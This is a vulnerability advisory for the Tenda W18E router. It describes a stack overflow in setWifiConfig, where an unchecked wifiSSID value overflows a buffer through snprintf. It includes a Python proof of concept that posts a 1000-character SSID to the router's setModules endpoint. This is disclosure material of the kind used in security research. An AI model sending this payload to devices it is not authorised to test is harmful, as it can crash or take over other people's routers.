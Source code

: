 # Tenda W18E setWifiConfig
### Overview
vendor: Tenda

product: W18E

version: V16.01.0.13(3742)

type: Stack Overflow
### Vulnerability Description
Tenda W18E V16.01.0.13(3742) were discovered to contain a stack overflow in the setWifiConfig function.
### Vulnerability details
In function setWifiConfig line 37、38, it reads in a user-provided parameter `wifiSSID`, and the variable `string` is passed to the `snprintf` function without any length check, which may overflow the stack-based buffer `v15`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/w18e-2-1.png)
![](images/w18e-2-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/setModules'
payload = {
    "wifiSSID": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
